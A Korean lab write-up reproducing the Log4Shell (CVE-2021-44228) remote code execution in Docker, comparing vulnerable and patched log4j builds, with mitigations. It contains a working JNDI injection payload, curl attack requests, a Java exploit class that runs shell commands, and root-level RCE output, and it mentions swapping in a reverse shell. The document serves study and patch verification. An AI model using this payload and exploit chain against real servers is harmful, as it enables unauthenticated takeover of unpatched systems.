



# CVE-2021-44228 (Log4Shell) - Apache Log4j2 원격 코드 실행 취약점

## 취약점 요약

CVE-2021-44228은 Apache Log4j2의 메시지 Lookup 기능에서 발생한 JNDI Injection
취약점이다. 사용자 입력값이 검증 없이 로그 메시지로 전달되면, `${jndi:ldap://...}`
형식의 문자열이 JNDI(Java Naming and Directory Interface) 조회로 해석되어
공격자가 지정한 원격 서버의 Java 클래스가 로드·실행된다. 이는 곧 인증 없는
원격 코드 실행(RCE)으로 이어진다.

이번 실습에서는 **동일한 애플리케이션 로직**을 log4j-core 2.14.1(취약)과
2.17.1(패치)로 각각 빌드한 뒤, 같은 공격 요청을 보내 결과를 비교했다.

| 항목 | 내용 |
|---|---|
| CVE | CVE-2021-44228 |
| 취약 유형 | JNDI Injection → Remote Code Execution |
| 관련 CWE | CWE-502 (Deserialization of Untrusted Data), CWE-917 (Expression Language Injection) |
| 취약 버전 | log4j-core 2.14.1 |
| 패치 비교 버전 | log4j-core 2.17.1 |
| Risk Score | CVSS v3.1 10.0 Critical |
| 인증 필요 여부 | 불필요 (Unauthenticated) |

이 환경은 컨테이너 내부에서 RCE 재현 여부와 패치 버전의 동작 차이를
확인하는 것이 목적이며, 실제 외부 대상 공격을 수행하지 않는다.

## 환경 구성

```
Log4j/CVE-2021-44228/
├── docker-compose.yml
├── README.md
├── vulnerable-app/          # log4j-core 2.14.1 (취약)
│   ├── Dockerfile
│   ├── pom.xml
│   └── src/main/java/com/example/VulnerableApp.java
├── patched-app/             # log4j-core 2.17.1 (패치) - 로직 동일
│   ├── Dockerfile
│   ├── pom.xml
│   └── src/main/java/com/example/PatchedApp.java
├── poc/
│   ├── Dockerfile
│   └── Exploit.java         # JNDI가 참조할 악성 클래스
├── ldap-server/
│   └── Dockerfile           # marshalsec 기반 LDAP Reference 서버
└── scripts/
    └── verify.sh            # 차등 검증 자동화 스크립트
```

4개 컨테이너로 구성되며 `docker-compose.yml` 하나로 전체 환경이 기동된다.

```
[공격 요청] --> [vulnerable-app :8080] --(JNDI lookup)--> [ldap-server :1389]
                [patched-app    :8081]                          │
                                                                  ▼
                                                     [http-server :8000] (Exploit.class 서빙)
```

| 서비스 | 역할 | 포트 | log4j 버전 |
|---|---|---|---|
| vulnerable-app | 공격 대상 (취약) | 8080 | 2.14.1 |
| patched-app | 대조군 (패치) | 8081 | 2.17.1 |
| ldap-server | 악성 LDAP Reference 서버 (marshalsec) | 1389 (내부) | - |
| http-server | Exploit.class 서빙 | 8000 (내부) | - |

`vulnerable-app`과 `patched-app`은 의존성 버전만 다르고, HTTP 헤더를 로깅하는
로직은 완전히 동일하다. 이를 통해 **버전 차이 자체가 결과 차이의 원인**임을
명확히 보인다.

## 취약 조건

재현 조건은 다음과 같다.

- log4j-core 버전이 2.0-beta9 ~ 2.14.1 사이일 것
- 사용자 입력값이 검증 없이 log4j 로거로 전달될 것 (예: HTTP 헤더, 파라미터)
- `log4j2.formatMsgNoLookups` 옵션이 비활성화(기본값)일 것
- 애플리케이션 서버가 외부 네트워크로 LDAP 연결이 가능할 것

이번 실습에서 사용하는 공격 페이로드는 다음과 같다.

```
${jndi:ldap://ldap-server:1389/Exploit}
```

## 재현 절차

CVE 디렉터리로 이동한다.

```bash
cd Log4j/CVE-2021-44228
```

전체 환경을 빌드하고 기동한다.

```bash
docker compose build --no-cache
docker compose up -d
docker compose ps
```

4개 컨테이너(`log4shell-vulnerable-app`, `log4shell-patched-app`,
`log4shell-ldap-server`, `log4shell-http-server`)가 모두 `Up` 상태인지 확인한다.

정상 요청으로 두 앱이 모두 살아있는지 확인한다.

```bash
curl http://localhost:8080/   # vulnerable-app
curl http://localhost:8081/   # patched-app
```

clean build를 확인하려면 다음 명령을 실행한다.

```bash
docker compose down -v
docker system prune -a -f
docker compose up -d --build
```

## PoC 코드

### 공격 요청

```bash
curl -H 'X-Api-Version: ${jndi:ldap://ldap-server:1389/Exploit}' http://localhost:8080/
curl -H 'X-Api-Version: ${jndi:ldap://ldap-server:1389/Exploit}' http://localhost:8081/
```

### 실행되는 악성 클래스 (`poc/Exploit.java`)

```java
public class Exploit {
    static {
        try {
            String[] cmd = {
                "/bin/sh", "-c",
                "echo 'PWNED-BY-CVE-2021-44228' > /tmp/pwned_by_log4shell.txt; id >> /tmp/pwned_by_log4shell.txt"
            };
            Runtime.getRuntime().exec(cmd);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

static 블록은 클래스가 JVM에 로드되는 시점에 자동 실행되므로, 인스턴스화 없이도
임의 명령이 실행된다. 실제 침해 시나리오에서는 리버스 쉘로 대체 가능하나, 본 PoC는
안전성을 위해 파일 생성으로 RCE 여부만 증명한다.

### 차등 검증 자동화 (`scripts/verify.sh`)

```bash
chmod +x scripts/verify.sh
./scripts/verify.sh
```

두 앱에 동일한 공격 요청을 보낸 뒤, 각 컨테이너 내부의 RCE 증거 파일 유무를
자동으로 비교하는 스크립트다.

## 실행 결과

`scripts/verify.sh` 실행 결과 예시는 다음과 같다.

```
[INFO] 정상 요청 확인 (vulnerable-app)
OK
[INFO] 정상 요청 확인 (patched-app)
OK
[INFO] 공격 요청 전송 - vulnerable-app (log4j 2.14.1)
[INFO] 공격 요청 전송 - patched-app (log4j 2.17.1)

[INFO] vulnerable-app 내부 RCE 증거 파일 확인
PWNED-BY-CVE-2021-44228
uid=0(root) gid=0(root) groups=0(root)
[PASS] vulnerable-app: RCE 재현 성공 (예상된 결과)

[INFO] patched-app 내부 RCE 증거 파일 확인 (없어야 정상)
[PASS] patched-app: RCE 재현되지 않음 (예상된 결과, 패치 정상 동작)

[INFO] 차등 검증 완료
```

결과를 정리하면 다음과 같다.

| 대상 | 결과 |
|---|---|
| vulnerable-app (2.14.1) | JNDI lookup 수행 → Exploit.class 로드 및 실행 → RCE 증거 파일 생성됨 |
| patched-app (2.17.1) | JNDI lookup이 기본 비활성화되어 있어 동일 페이로드에도 아무 동작 없음 |
| ldap-server 로그 | vulnerable-app으로부터의 LDAP 조회 요청 확인 가능 |
| http-server 로그 | Exploit.class 다운로드 요청 확인 가능 (vulnerable-app 경로에서만) |





> 스크린샷은 실제 실행 후 캡처하여 `screenshots/` 폴더에 로컬 파일로 저장 후 교체할 것.

## 대응 방안

- log4j-core를 2.17.1 이상으로 업그레이드한다.
- 2.10~2.14.1 버전을 즉시 업그레이드하기 어려운 경우, 시스템 프로퍼티
  `log4j2.formatMsgNoLookups=true`를 설정해 JNDI lookup을 임시로 비활성화한다.
- 2.10 이상 버전에서는 `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`
  명령으로 JNDI lookup 클래스 자체를 제거하는 방법도 가능하다.
- 애플리케이션 서버의 아웃바운드 LDAP/RMI(389, 1099, 1389 등) 연결을
  방화벽에서 차단해 공격 체인을 원천 차단한다.
- `${jndi:` 패턴을 포함한 요청 헤더/파라미터를 WAF에서 차단하되, 우회 패턴이
  다수 존재하므로 근본 대책이 아닌 보조 수단으로만 사용한다.
- 아웃바운드 LDAP/RMI 연결 시도를 IoC로 삼아 SIEM/EDR에서 탐지·경보한다.

## 참고 자료

- Apache Log4j Security Advisory: https://logging.apache.org/log4j/2.x/security.html
- NVD CVE-2021-44228: https://nvd.nist.gov/vuln/detail/CVE-2021-44228
- marshalsec: https://github.com/mbechler/marshalsec
